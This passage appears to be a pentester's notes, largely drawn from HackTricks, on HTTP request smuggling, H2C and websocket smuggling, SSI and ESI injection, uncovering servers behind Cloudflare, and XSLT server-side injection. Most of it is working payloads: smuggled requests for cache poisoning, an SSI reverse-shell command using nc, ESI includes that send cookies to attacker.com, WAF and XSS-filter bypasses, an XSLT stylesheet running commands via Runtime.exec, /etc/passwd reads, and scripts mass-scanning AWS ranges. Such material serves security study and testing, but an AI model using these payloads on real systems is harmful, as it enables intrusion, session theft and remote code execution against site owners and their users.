Though seemingly harmless, this behavior can be manipulated using HTTP request smuggling to redirect users to an external site. For example:


```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

This smuggled request could cause the next processed user request to be redirected to an attacker-controlled website:


```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

Results in:


```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

In this scenario, a user's request for a JavaScript file is hijacked. The attacker can potentially compromise the user by serving malicious JavaScript in response.

#### Exploiting Web Cache Poisoning via HTTP Request Smuggling

Web cache poisoning can be executed if any component of the **front-end infrastructure caches content**, typically to enhance performance. By manipulating the server's response, it's possible to **poison the cache**.

Previously, we observed how server responses could be altered to return a 404 error (refer to [Basic Examples](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling#basic-examples)). Similarly, it’s feasible to trick the server into delivering `/index.html` content in response to a request for `/static/include.js`. Consequently, the `/static/include.js` content gets replaced in the cache with that of `/index.html`, rendering `/static/include.js` inaccessible to users, potentially leading to a Denial of Service (DoS).

This technique becomes particularly potent if an **Open Redirect vulnerability** is discovered or if there's an **on-site redirect to an open redirect**. Such vulnerabilities can be exploited to replace the cached content of `/static/include.js` with a script under the attacker's control, essentially enabling a widespread Cross-Site Scripting (XSS) attack against all clients requesting the updated `/static/include.js`.

Below is an illustration of exploiting **cache poisoning combined with an on-site redirect to open redirect**. The objective is to alter the cache content of `/static/include.js` to serve JavaScript code controlled by the attacker:


```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

Note the embedded request targeting `/post/next?postId=3`. This request will be redirected to `/post?postId=4`, utilizing the **Host header value** to determine the domain. By altering the **Host header**, the attacker can redirect the request to their domain (**on-site redirect to open redirect**).

After successful **socket poisoning**, a **GET request** for `/static/include.js` should be initiated. This request will be contaminated by the prior **on-site redirect to open redirect** request and fetch the content of the script controlled by the attacker.

Subsequently, any request for `/static/include.js` will serve the cached content of the attacker's script, effectively launching a broad XSS attack.


#### Using HTTP request smuggling to perform web cache deception

> **What is the difference between web cache poisoning and web cache deception?**
> 
> - In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
>     
> - In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.
>     

The attacker crafts a smuggled request that fetches sensitive user-specific content. Consider the following example:


```
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```

If this smuggled request poisons a cache entry intended for static content (e.g., `/someimage.png`), the victim's sensitive data from `/private/messages` might be cached under the static content's cache entry. Consequently, the attacker could potentially retrieve these cached sensitive data.

#### Abusing TRACE via HTTP Request Smuggling

[**In this post**](https://portswigger.net/research/trace-desync-attack) is suggested that if the server has the method TRACE enabled it could be possible to abuse it with a HTTP Request Smuggling. This is because this method will reflect any header sent to the server as part of the body of the response. For example:


```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```

Will send a response such as:


```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```

An example on how to abuse this behaviour would be to **smuggle first a HEAD request**. This request will be responded with only the **headers** of a GET request (`**Content-Type**` among them). And smuggle **immediately after the HEAD a TRACE request**, which will be **reflecting the sent dat**a. As the HEAD response will be containing a `Content-Length` header, the **response of the TRACE request will be treated as the body of the HEAD response, therefore reflecting arbitrary data** in the response. This response will be sent to the next request over the connection, so this could be **used in a cached JS file for example to inject arbitrary JS code**.
#### Abusing TRACE via HTTP Response Splitting

Continue following [**this post**](https://portswigger.net/research/trace-desync-attack) is suggested another way to abuse the TRACE method. As commented, smuggling a HEAD request and a TRACE request it's possible to **control some reflected data** in the response to the HEAD request. The length of the body of the HEAD request is basically indicated in the Content-Length header and is formed by the response to the TRACE request.

Therefore, the new idea would be that, knowing this Content-Length and the data given in the TRACE response, it's possible to make the TRACE response contains a valid HTTP response after the last byte of the Content-Length, allowing an attacker to completely control the request to the next response (which could be used to perform a cache poisoning).

Example:

```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```

Will generate these responses (note how the HEAD response has a Content-Length making the TRACE response part of the HEAD body and once the HEAD Content-Length ends a valid HTTP response is smuggled):


```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```

  
Have you found some HTTP Request Smuggling vulnerability and you don't know how to exploit it. Try these other method of exploitation:

[HTTP Response Smuggling / Desync](https://book.hacktricks.xyz/pentesting-web/http-response-smuggling-desync)


Other HTTP Request Smuggling Techniques

- Browser HTTP Request Smuggling (Client Side)
    

[Browser HTTP Request Smuggling](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling/browser-http-request-smuggling)

- Request Smuggling in HTTP/2 Downgrades
    

[Request Smuggling in HTTP/2 Downgrades](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling/request-smuggling-in-http-2-downgrades)

## Tools

- [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
    
- [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
    
- [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
    
- [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)
    
- [https://github.com/Moopinger/smugglefuzz](https://github.com/Moopinger/smugglefuzz)
    
- [https://github.com/bahruzjabiyev/t-reqs-http-fuzzer](https://github.com/bahruzjabiyev/t-reqs-http-fuzzer): This tool is a grammar-based HTTP Fuzzer useful to find weird request smuggling discrepancies.


# <font color="red">H2C smuggling</font>

### H2C Smuggling

HTTP2 Over Cleartext (H2C)

H2C, or **http2 over cleartext**, deviates from the norm of transient HTTP connections by upgrading a standard HTTP **connection to a persistent one**. This upgraded connection utilizes the http2 binary protocol for ongoing communication, as opposed to the single-request nature of plaintext HTTP.

  
The crux of the smuggling issue arises with the usage of a **reverse proxy**. Ordinarily, the reverse proxy processes and forwards HTTP requests to the backend, returning the backend's response after that. However, when the `Connection: Upgrade` header is present in an HTTP request (commonly seen with websocket connections), the reverse **proxy maintains a persistent connection** between client and server, facilitating the continuous exchange required by certain protocols. For H2C connections, adherence to the RFC necessitates the presence of three specific headers:

Copy

```
Upgrade: h2c
HTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA
Connection: Upgrade, HTTP2-Settings
```

The vulnerability arises when, after upgrading a connection, the reverse proxy ceases to manage individual requests, assuming its job of routing is complete post-connection establishment. Exploiting H2C Smuggling allows for circumvention of reverse proxy rules applied during request processing, such as path-based routing, authentication, and WAF processing, assuming an H2C connection is successfully initiated.


Vulnerable Proxies

The vulnerability is contingent on the reverse proxy's handling of `Upgrade` and sometimes `Connection` headers. The following proxies inherently forward these headers during proxy-pass, thereby inherently enabling H2C smuggling:

- HAProxy
    
- Traefik
    
- Nuster
    

Conversely, these services do not inherently forward both headers during proxy-pass. However, they may be configured insecurely, allowing unfiltered forwarding of `Upgrade` and `Connection` headers:

- AWS ALB/CLB
    
- NGINX
    
- Apache
    
- Squid
    
- Varnish
    
- Kong
    
- Envoy
    
- Apache Traffic Server
    


Exploitation

It's crucial to note that not all servers inherently forward the headers required for a compliant H2C connection upgrade. As such, servers like AWS ALB/CLB, NGINX, and Apache Traffic Server, among others, naturally block H2C connections. Nonetheless, it's worth testing with the non-compliant `Connection: Upgrade` variant, which excludes the `HTTP2-Settings` value from the `Connection` header, as some backends may not conform to the standards.

The tools [**h2csmuggler by BishopFox**](https://github.com/BishopFox/h2csmuggler) and [**h2csmuggler by assetnote**](https://github.com/assetnote/h2csmuggler) facilitate attempts to **circumvent proxy-imposed protections** by establishing an H2C connection, thereby enabling access to resources shielded by the proxy.


## Websocket smuggling 

### Scenario 1

In this scenario, a backend that offers a public WebSocket API alongside an inaccessible internal REST API is targeted by a malicious client seeking access to the internal REST API. The attack unfolds in several steps:

1. The client initiates by sending an Upgrade request to the reverse proxy with an incorrect `Sec-WebSocket-Version` protocol version in the header. The proxy, failing to validate the `Sec-WebSocket-Version` header, believes the Upgrade request to be valid and forwards it to the backend.
    
2. The backend responds with a status code `426`, indicating the incorrect protocol version in the `Sec-WebSocket-Version` header. The reverse proxy, overlooking the backend's response status, assumes readiness for WebSocket communication and relays the response to the client.
    
3. Consequently, the reverse proxy is misled into believing a WebSocket connection has been established between the client and backend, while in reality, the backend had rejected the Upgrade request. Despite this, the proxy maintains an open TCP or TLS connection between the client and backend, allowing the client unrestricted access to the private REST API through this connection.
    

Affected reverse proxies include Varnish, which declined to address the issue, and Envoy proxy version 1.8.0 or older, with later versions having altered the upgrade mechanism. Other proxies may also be susceptible.


### Scenario 2

This scenario involves a backend with both a public WebSocket API and a public REST API for health checking, along with an inaccessible internal REST API. The attack, more complex, involves the following steps:

1. The client sends a POST request to trigger the health check API, including an additional HTTP header `Upgrade: websocket`. NGINX, serving as the reverse proxy, interprets this as a standard Upgrade request based solely on the `Upgrade` header, neglecting the request's other aspects, and forwards it to the backend.
    
2. The backend executes the health check API, reaching out to an external resource controlled by the attacker that returns a HTTP response with status code `101`. This response, once received by the backend and forwarded to NGINX, deceives the proxy into thinking a WebSocket connection has been established due to its validation of only the status code.
    


> **Warning:** This technique's complexity increases as it requires the ability to interact with an endpoint capable of returning a status code 101.

Ultimately, NGINX is tricked into believing a WebSocket connection exists between the client and the backend. In reality, no such connection exists; the health check REST API was the target. Nevertheless, the reverse proxy maintains the connection open, enabling the client to access the private REST API through it.


Most reverse proxies are vulnerable to this scenario, but exploitation is contingent upon the presence of an external SSRF vulnerability, typically regarded as a low-severity issue.


## to read 
- [ ] https://www.assetnote.io/resources/research/h2c-smuggling-in-the-wild
- [ ] https://bishopfox.com/blog/h2c-smuggling-request
- [ ] https://github.com/0ang3el/websocket-smuggle


# <font color="red">Server side Inclusion/ Edge side Inclusion</font>
## SSI
SSI (Server Side Includes) are directives that are **placed in HTML pages, and evaluated on the server** while the pages are being served. They let you **add dynamically generated content** to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology. For example, you might place a directive into an existing HTML page, such as:

`<!--#echo var="DATE_LOCAL" -->`

And, when the page is served, this fragment will be evaluated and replaced with its value:

`Tuesday, 15-Jan-2013 19:28:54 EST`

The decision of when to use SSI, and when to have your page entirely generated by some program, is usually a matter of how much of the page is static, and how much needs to be recalculated every time the page is served. SSI is a great way to add small pieces of information, such as the current time - shown above. But if a majority of your page is being generated at the time that it is served, you need to look for some other solution.

You can infer the presence of SSI if the web application uses files with the extensions ** `.shtml`, `.shtm` or `.stm`**, but it's not only the case.

A typical SSI expression has the following format:


```
<!--#directive param="value" -->
```

### Check


```
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->
```

## Edge side inclusion
There is a problem **caching information or dynamic applications** as part of the content may have **varied** for the next time the content is retrieved. This is what **ESI** is used form, to indicate using ESI tags the **dynamic content that needs to be generated** before sending the cache version.
if an **attacker** is able to **inject an ESI tag** inside the cache content, then, he could be able to i**nject arbitrary content** on the document before it's sent to the users.


#### ESI Detection 

The following header in a response from the server means that the server is using ESI:

	Surrogate-Control: content="ESI/1.0"

if you can't find this header , the server **might be using ESI anyways** A **Blind Exploition approach can also be used** as a request should arrive to the attackers server:

```
// Basic detection
hell<!--esi-->o 
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

#### ESI exploitation 
[ GoSecure created](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) a table to understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported:

- **Includes**: Supports the `<esi:includes>` directive
    
- **Vars**: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
    
- **Cookie**: Document cookies are accessible to the ESI engine
    
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
    
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts
    

|   |   |   |   |   |   |
|---|---|---|---|---|---|
|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|

#### XSS
The following ESI directive will load an arbitrary file inside the response of the server

Copy

```
<esi:include src=http://attacker.com/xss.html>
```

#### Bypassing client xss protection
```
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
error=ale<!--esi-->rt(1)>
```

#### Steal cookie
- Remote steal cookie
    


```
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```

- Steal cookie HTTP_ONLY with XSS by reflecting it in the response:
    


```
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```

#### Private Local File

Do not confuse this with a "Local File Inclusion":


```
<esi:include src="secret.txt">
```

#### CRLF
 
```
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```

#### Open Redirect
he following will add a `Location` header to the response


```
<!--esi $add_header('Location','http://attacker.com') -->
```

#### Add Header 

-   
    Add header in forced request
    

```
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```
- Add header in response (useful to bypass "Content-Type: text/json" in a response with XSS)
    

```
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```

#### CRLF in Add header (**CVE-2019-2438)**

Copy

```
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```

#### Akamai debug

This will send debug information included in the response:


```
<esi:debug/>
```

### ESI + XSLT = XXE

By specifying the `xslt` value for the _dca_ parameter, it is feasible to include `**eXtensible Stylesheet Language Transformations (XSLT)**` based ESI. The inclusion causes the HTTP surrogate to retrieve the XML and XSLT files, with the latter filtering the former. Such XML files are exploitable for _XML External Entity (XXE)_ attacks, enabling attackers to execute SSRF attacks. However, the utility of this approach is limited since ESI includes already serve as an SSRF vector. Due to the absence of support in the underlying Xalan library, external DTDs are not processed, preventing local file extraction.


```
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```

XSLT file:


```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```


# <font color="red">Uncovering Cloudflare</font>
### Common techniques 
-   
    You can use some service that gives you the **historical DNS records** of the domain. Maybe the web page is running on an IP address used before.
    
    - Same could be achieve **checking historical SSL certificates** that could be pointing to the origin IP address.
        
    - Check also **DNS records of other subdomains pointing directly to IPs**, as it's possible that other subdomains are pointing to the same server (maybe to offer FTP, mail or any other service).
        
    
- If you find a **SSRF inside the web application** you can abuse it to obtain the IP address of the server.
    
- Search a unique string of the web page in browsers such as shodan (and maybe google and similar?). Maybe you can find an IP address with that content.
    
    - In a similar way instead of looking for a uniq string you could search for the favicon icon with the tool: [https://github.com/karma9874/CloudFlare-IP](https://github.com/karma9874/CloudFlare-IP) or with [https://github.com/pielco11/fav-up](https://github.com/pielco11/fav-up)
        
    - This won't work be very frequently because the server must send the same response when it's accessed by the IP address, but you never know.
## tools to uncover cloudflare 

- Search for the domain inside [http://www.crimeflare.org:82/cfs.html](http://www.crimeflare.org:82/cfs.html) or [https://crimeflare.herokuapp.com](https://crimeflare.herokuapp.com/). Or use the tool [CloudPeler](https://github.com/zidansec/CloudPeler) (which uses that API)
    
- Search for the domain in [https://leaked.site/index.php?resolver/cloudflare.0/](https://leaked.site/index.php?resolver/cloudflare.0/)
    
- [**CloudFlair**](https://github.com/christophetd/CloudFlair) is a tool that will search using Censys certificates that contains the domain name, then it will search for IPv4s inside those certificates and finally it will try to access the web page in those IPs.
    
- [**CloakQuest3r**](https://github.com/spyboy-productions/CloakQuest3r): CloakQuest3r is a powerful Python tool meticulously crafted to uncover the true IP address of websites safeguarded by Cloudflare and other alternatives, a widely adopted web security and performance enhancement service. Its core mission is to accurately discern the actual IP address of web servers that are concealed behind Cloudflare's protective shield.
    
- [Censys](https://search.censys.io/)
    
- [Shodan](https://shodan.io/)
    
- [Bypass-firewalls-by-DNS-history](https://github.com/vincentcox/bypass-firewalls-by-DNS-history)
    
- If you have a set of potential IPs where the web page is located you could use [https://github.com/hakluke/hakoriginfinder](https://github.com/hakluke/hakoriginfinder)

```
# You can check if the tool is working with
prips 1.0.0.0/30 | hakoriginfinder -h one.one.one.one

# If you know the company is using AWS you could use the previous tool to search the
## web page inside the EC2 IPs
DOMAIN=something.com
WIDE_REGION=us
for ir in `curl https://ip-ranges.amazonaws.com/ip-ranges.json | jq -r '.prefixes[] | select(.service=="EC2") | select(.region|test("^us")) | .ip_prefix'`; do 
    echo "Checking $ir"
    prips $ir | hakoriginfinder -h "$DOMAIN"
done
```

### Uncovering Cloudflare from cloud infrastructure
Note that even if this was done for AWS machines, it could be done for any other cloud provider.

For a better description of this process check:

[Cloudflare bypass - Discover IP addresses of Web servers in AWS | TrickestTrickest](https://trickest.com/blog/cloudflare-bypass-discover-ip-addresses-aws/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks)

```
# Find open ports
sudo masscan --max-rate 10000 -p80,443 $(curl -s https://ip-ranges.amazonaws.com/ip-ranges.json | jq -r '.prefixes[] | select(.service=="EC2") | .ip_prefix' | tr '\n' ' ') | grep "open"  > all_open.txt
# Format results
cat all_open.txt | sed 's,.*port \(.*\)/tcp on \(.*\),\2:\1,' | tr -d " " > all_open_formated.txt
# Search actual web pages
httpx -silent -threads 200 -l all_open_formated.txt -random-agent -follow-redirects -json -no-color -o webs.json
# Format web results and remove eternal redirects
cat webs.json | jq -r "select((.failed==false) and (.chain_status_codes | length) < 9) | .url" | sort -u > aws_webs.json

# Search via Host header
httpx -json -no-color -list aws_webs.json -header Host: cloudflare.malwareworld.com -threads 250 -random-agent -follow-redirects -o web_checks.json
```
#### Bypassing cloudflare through cloudflare

this mechanism relies on client ssl certificates to **authenticate connections** between **Cloudflare's reverse-proxy servers** and the **Origin** server, which is called **mTLS**. 

Instead of configuring it's own certificate, customers can simple use Cloudflare’s certificate to allow any connection from Cloudflare, **regardless of the tenant**.

Therefore, an attacker could just set a **domain in Cloudflare using Cloudflare's certificate and point** it to the **victim** domain **IP** address. This way, setting his domain completely unprotected, Cloudflare won't protect the requests sent.

More info [**here**](https://socradar.io/cloudflare-protection-bypass-vulnerability-on-threat-actors-radar/).
#### Allowlist Cloudflare IP Addresses

this will **reject connections that do not originate from cloudflare's** IP address ranges .this is also vulnerable to the previous setup where an attacker just **point his own domain in cloudflare** to the **victims IP** address and attack it.

More info [**here**](https://socradar.io/cloudflare-protection-bypass-vulnerability-on-threat-actors-radar/).

### Bypass cloudflare for scraping 

#### cache
Sometimes you just want to bypass Cloudflare to only scrape the web page. There are some options for this:

- Use Google cache: `https://webcache.googleusercontent.com/search?q=cache:https://www.petsathome.com/shop/en/pets/dog`
    
- Use other cache services such as [https://archive.org/web/](https://archive.org/web/)


### Tools 
Some tools like the following ones can bypass (or were able to bypass) Cloudflare's protection against scraping:

- [https://github.com/sarperavci/CloudflareBypassForScraping](https://github.com/sarperavci/CloudflareBypassForScraping)
#### Cloudflare Solvers

There have been a number of Cloudflare solvers developed:

- [FlareSolverr](https://github.com/FlareSolverr/FlareSolverr)
    
- [cloudscraper](https://github.com/VeNoMouS/cloudscraper) [Guide here](https://scrapeops.io/python-web-scraping-playbook/python-cloudscraper/)
    
- [cloudflare-scrape](https://github.com/Anorov/cloudflare-scrape)
    
- [CloudflareSolverRe](https://github.com/RyuzakiH/CloudflareSolverRe)
    
- [Cloudflare-IUAM-Solver](https://github.com/ninja-beans/cloudflare-iuam-solver)
    
- [cloudflare-bypass](https://github.com/devgianlu/cloudflare-bypass) [Archived]
    
- [CloudflareSolverRe](https://github.com/RyuzakiH/CloudflareSolverRe)
    
#### Fortified Headless Browsers

Use a headless browser that isn't deetcted as an automated browser (you might need to customize it for that). Some options are:

- **Puppeteer:** The [stealth plugin](https://github.com/berstend/puppeteer-extra/tree/master/packages/puppeteer-extra-plugin-stealth) for [puppeteer](https://github.com/puppeteer/puppeteer).
    
- **Playwright:** The [stealth plugin](https://www.npmjs.com/package/playwright-stealth) is coming to Playwright soon. Follow developments [here](https://github.com/berstend/puppeteer-extra/issues/454) and [here](https://github.com/berstend/puppeteer-extra/tree/master/packages/playwright-extra).
    
- **Selenium:** The [undetected-chromedriver](https://github.com/ultrafunkamsterdam/undetected-chromedriver) an optimized Selenium Chromedriver patch.


#### Smart Proxy With Cloudflare Built-In Bypass

**Smart proxies**  are continuously updated by specialized companies, aiming to outmaneuver Cloudflare's security measures (as thats their business).

Som of them are:

- [ScraperAPI](https://www.scraperapi.com/?fp_ref=scrapeops)
    
- [Scrapingbee](https://www.scrapingbee.com/?fpr=scrapeops)
    
- [Oxylabs](https://oxylabs.go2cloud.org/aff_c?offer_id=7&aff_id=379&url_id=32)
    
- [Smartproxy](https://prf.hn/click/camref:1100loxdG/[p_id:1100l442001]/destination:https%3A%2F%2Fsmartproxy.com%2Fscraping%2Fweb) are noted for their proprietary Cloudflare bypass mechanisms.
    

For those seeking an optimized solution, the [ScrapeOps Proxy Aggregator](https://scrapeops.io/proxy-aggregator/) stands out. This service integrates over 20 proxy providers into a single API, automatically selecting the best and most cost-effective proxy for your target domains, thus offering a superior option for navigating Cloudflare's defenses.

#### Reverse Enginering Cloudflare Unti bot Protection


# <font color="red">XSLT server side injection</font>
## Basic Information

 The attacker must be able to reflect a value with XML tags inside a page that is cached. Once a reflected value is found on the site, the following payload is reflected by the attacker in the HTTP response.

	<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
	</esi:include>

The stylesheet attribute will point to a malicious XSLT resource hosted on a remote server controlled by the attacker.

### XSL to RCE 
he XSLT processing is triggered automatically by ESI-Gate when the included tag has a remote stylesheet. By default, the XML parser in Java allows the import of Java functions. This can easily lead to arbitrary code execution as demonstrated in the following stylesheet sample.
```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch /tmp/pwned]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
### Read Local File

read.xsl

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#ssrf)

SSRF

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#versions)

Versions

There might be more or less functions depending on the XSLT version used:

- [https://www.w3.org/TR/xslt-10/](https://www.w3.org/TR/xslt-10/)
    
- [https://www.w3.org/TR/xslt20/](https://www.w3.org/TR/xslt20/)
    
- [https://www.w3.org/TR/xslt-30/](https://www.w3.org/TR/xslt-30/)
    


#### Fingerprint

Upload this and take information

Copy

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

#### SSRF

Copy

```
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>
```

#### Javascript Injection

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#directory-listing-php)

Directory listing (PHP)

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#opendir--readdir)

**Opendir + readdir**

Copy

```
